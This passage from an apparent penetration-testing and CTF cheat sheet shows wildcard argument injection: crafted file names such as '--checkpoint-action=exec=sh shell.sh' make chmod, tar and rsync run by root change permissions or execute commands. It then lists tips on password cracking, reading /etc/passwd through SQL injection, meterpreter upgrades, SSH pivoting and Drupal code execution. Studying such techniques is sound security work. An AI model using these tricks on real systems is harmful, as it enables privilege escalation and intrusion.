    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

  What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set tomode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

 * **Tar arbitrary command execution**
  
  Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

  :: 

    [root@defensecode public]# tar cvvf archive.tar *

  So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

  :: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

  There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

  Check the following directory:

  :: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Now, for example, root user wants to create archive of all files in current directory.

  :: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

  Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

  :: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

  :: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

  So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

 * **Rsync arbitrary command execution**

  Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

  Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

  Interesting rsync option from manual:

  :: 

    -e, --rsh=COMMAND       specify the remote shell to use
    --rsync-path=PROGRAM    specify the rsync to run on remote machine			

  Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

  :: 

    # rsync -t *.c foo:src/


  Directory content:

  :: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

  Now root will try to copy all C files to the remote server.

  :: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

  Let's see what happened...

  :: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

  There were two files owned by user 'leon', as listed below.

  :: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

  After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

  :: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

  If we check its content, following data is found.

  :: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

  Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

  :: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt


Tips and Tricks
***************

* run-parts 

 run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

 :: 

  run-parts /etc/cron.daily

* Sudoers file: 

 If the sudoers file contains: 
	
 :: 

   secure\_path 
  Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment 	variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt\_group option are not affected by secure\_path. This option is not set by default.

  env\_reset If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO\_\* variables. Any variables in the caller's environment that match the env\_keep and env\_check lists are then added, followed by any variables present in the file specified by the env\_file option (if any). The contents of the env\_keep and env\_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure\_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

  mail\_badpass Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail\_all\_cmnds, mail\_always, mail\_no\_host, mail\_no\_perms or mail\_no\_user flags are set, this flag will have no effect. This flag is off by default.

	
* XSS/ HTML Injection:

  The below will redirect the page to google.com

 ::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be 	      	    important to see how a application is storing password.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial


* Java keystore file: 
   <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores> and <https://www.digitalocean.com/    	community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>

* Cracking MD5 Hashes:  
   Try <https://crackstation.net/>


* Find files by wheel/ adm users.
  
 Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

* When you see something like this "Nick's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

 :: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Nick’s sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password promptfrom the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you aretrying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    
* curl

  :: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.


* Port 69 UDP:

  TFTP

  :: 

   get or put file

	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in Breach 2)), we can upgrade it to meterpreter by using sessions -u

 :: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms


* If you know the password of the user, however, ssh is not allowing you to login, check ssh\_config.

 ::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers eugene margo 
   ## SSH keys only but margo can use a password 
   Match user margo 
   PasswordAuthentication yes 	
   ## End tighten security
 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'


* Password Protected File:
	  
 * ZIP File: run fcrackzip

  :: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

 * We can get the password hash of a password protected rar file by using rar2john

  :: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

* Data-URI:
	
  <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>

* We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

 :: 

    ssh -D localhost:9050 user@host

    -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

 and 
	
 :: 
	
   proxychains4 remmina


* If you have sql-shell from sqlmap, we can use

 :: 
	
   select load_file('/etc/passwd');

* If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

 :: 

   truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

 and Veracrypt to open the file.


* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module.Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next I create a new block (by going to Blocks, under the Structure menu) with the following content. I make sure to select PHP code from the Text format drop down. Taken from <https://g0blin.co.uk/droopy-vulnhub-writeup/>
   Drupal settings file location: /var/www/html/sites/default/settings.php

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy.


